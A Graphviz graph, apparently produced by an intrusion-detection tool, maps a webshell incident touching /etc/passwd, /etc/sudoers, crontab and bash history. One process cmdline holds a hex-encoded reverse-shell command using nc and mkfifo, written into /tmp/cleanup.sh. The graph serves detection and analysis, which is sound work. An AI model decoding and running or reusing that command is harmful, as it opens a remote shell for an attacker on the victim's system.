 digraph graph1 {
node [shape = Mrecord];
table172 [label = "{<head>processname: sh | pid: 1378 | cmdline: /bin/sh | starttime: 1618986602273000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618986697596000000 | label: PS3 Credential Access (CA) timestamp: 1618985500876000000 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT8 The uploaded file is read.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986602269000000 | label: PS2 Privilege Escalation timestamp: 1618986648760000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000}", color = red];
table185 [shape = record, label = "{<head>filename: /home/manager/.bash_history | label: FS4 bash_history timestamp: 1618986697596000000}"];
table172 -> table185[label = "action: 0  FS4->PS4"];
table41 [shape = record, label = "{<head>filename: /etc/passwd | label: FT2 The file is sensitive as default. timestamp: 1618985500876000000 | label: FS3 passwd timestamp: 1618985500876000000}"];
table172 -> table41[label = "action: 0  FS3->PS3"];
table157 [shape = record, label = "{<head>filename: /tmp/cleanup.sh | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table162 [label = "{<head>processname: sh | pid: 1368 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986281293000000 | enddtime: 1618986281293000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986281293000000}"];
table162 -> table157[label = "action: 1  PT9->FT9"];
table172 -> table157[label = "action: 0  FT9->PT8"];
table181 [shape = record, label = "{<head>filename: /etc/sudoers | label: FS2 sudoers timestamp: 1618986648760000000 | label: FT2 The file is sensitive as default. timestamp: 1618986648760000000 | label: FS5 high price file timestamp: 1618986166123000000 | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table172 -> table181[label = "action: 1  FS2->PS2"];
table153 [shape = record, label = "{<head>filename: /etc/crontab | label: FS1 crontab timestamp: 1618986166123000000 | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table172 -> table153[label = "action: 1  FS1->PS1"];
}
